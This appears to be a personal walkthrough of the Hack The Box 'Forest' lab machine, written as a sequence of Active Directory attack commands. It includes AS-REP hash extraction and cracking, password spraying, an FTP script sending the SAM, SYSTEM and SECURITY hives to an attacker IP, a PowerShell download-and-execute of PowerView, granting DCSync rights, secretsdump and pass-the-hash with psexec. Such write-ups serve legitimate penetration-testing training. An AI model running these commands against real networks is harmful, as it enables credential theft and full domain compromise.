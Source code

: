# Forest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### NMAP RECON :

``nmap -sC -sV -oA forest 10.10.10.161``

``sleep300; nmap -p- -oA fullforst 10.10.10.161``

### SMB RECON :

``smbclient -L 10.10.10.161``

### LDAP RECON :

``ldapsearch -h 10.10.10.161 -x``

``ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-anonymous.out``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i samaccountname``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i userPrincipalName``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i pwdLastSet``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' samaccountname userPrincipalName pwdLastSet``

> google pwdLastSet ldap to human

https://www.epochconverter.com/ldap # Allows to transform data and to know if the accounts are valid 

### Transform commandes into a clean list of users and mails:

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap`` 

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' userPrincipalName | grep userPrincipalName | awk '{print $2}' > listmail.ldap``

### RPC RECON :

``rpcclient -U '' -N 10.10.10.161``

``enumdomusers``

``queryusergroups 0x47b``

``querygroup 0x47c``

``queryuser svc-alfresco``

![foret1](https://user-images.githubusercontent.com/123066149/219473940-1d997e3f-02fc-43da-b23a-1b1caf983c85.PNG)

![foret2](https://user-images.githubusercontent.com/123066149/219474000-d7af10d8-b7c2-4ca7-9a8e-fd5ee81e850b.PNG)

### AD passwords policy with CME (crackmapexec) :

``crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''``

``crackmapexec smb 10.10.10.161 --pass-pol -u 'user.lst' -p 'passwd.lst'``

### Password spray with crackmapexec

``crackmapexec smb 10.10.10.161 -u 'user.lst' -p 'passwd.lst'``

### Which makes it possible to advance on this box

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``       :white_check_mark:

![foret3](https://user-images.githubusercontent.com/123066149/219474106-21ca5839-47c6-490d-a634-04ffff9ea1ae.PNG)


``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/ -format hashcat``

![foret4](https://user-images.githubusercontent.com/123066149/219474172-104cc2cc-402f-4c70-875d-de718e5343cf.PNG)


``hashcat --example-hashes | grep -i krb``

``hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt`` # ippsec add -r rules/InsidePro-PasswordsPro.rule try to understand why

![foret5](https://user-images.githubusercontent.com/123066149/219474212-b889f930-8baa-4792-8ca8-2dca650ce1f5.PNG)


# ${{\color{purple}Initial Foothold}}\ $

### Test with a valid user :
 
``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares``

# ${{\color{purple}Exploitation}}\ $

### port 5985 is important it is Win-RM (powershell remoting)

``locate evil-winrm``

``/usr/bin/evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161``

![foret6](https://user-images.githubusercontent.com/123066149/219474485-14552105-e748-4666-b91c-bf4ffa8ebbd0.PNG)


# ${{\color{purple}Privilege Escalation}}\ $

### File transfer with FTP:

``find . | grep exe$``

``impacket-smbserver idk $(pwd) -smb2support -user user -password idkazewxc123``

![foret7](https://user-images.githubusercontent.com/123066149/219474532-29bb4e52-4708-4b0f-a113-c9208183c429.PNG)


``$pass = convertto-securestring 'idkazewxc123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\ippsec', $pass)``

``New-PSDrive -PSProvider FileSystem \\10.10.16.5``


``systemctl restart pure-ftpd``

``echo open 10.10.16.5 21> ftp.txt``

``echo USER offsec>> ftp.txt``

``echo lab>> ftp.txt``

``echo bin>> ftp.txt``

``echo PUT C:\windows\system32\config\SYSTEM>> ftp.txt``

``echo PUT C:\windows\system32\config\SAM>> ftp.txt``

``echo PUT C:\windows\system32\config\SECURITY>> ftp.txt``

``echo bye>> ftp.txt``



``ftp –v –n –s:ftp.txt``

``systemctl stop pure-ftpd``

### File transfer with SMB :

``New-PSDrive -Name ippsec4 -PSProvider FileSystem -Root \\10.10.16.5\test``

``cd ippsec4:``

``/usr/share/doc/python3-impacket/examples/smbserver.py test /mnt/share -smb2support``

### Bloodhound :

### if there is an installation of bloodhound and I don't remember the password neo4j delet :

``rm /usr/share/neo4j/data/dbms/auth``

``neo4j console``

``neo4j password : sparta-castro-union-labor-pluto-9066``


``./BloodHound --no-sandbox``

``.\SharpHound.exe -c all``

![foret8](https://user-images.githubusercontent.com/123066149/219474603-46922d67-0cc6-4e78-a08f-7ae8974f63fc.PNG)

### Bloodhound search :

``-Mark User as Owned``
``-Search for Shortest Path from Owned Principals``

``net user evil evil123 /add /domain``

``net group "Exchange Windows Permissions"``

``net group "Exchange Windows Permissions" /add evil``

### File transfer with SMB :

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/PowerView.ps1')``

``$pass = convertto-securestring 'evil123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)``

``Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity evil -Rights DCSync``

``/usr/bin/impacket-secretsdump htb.local/evil:evil123@10.10.10.161``

``crackmapexec smb 10.10.10.161 -u 'administrator' -H 32693b11e6aa90eb43d32c72a07ceea6``

``/usr/bin/impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161``

# ${{\color{purple}Points of Improvement}}\ $

- Don't forget / in impacket :

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``
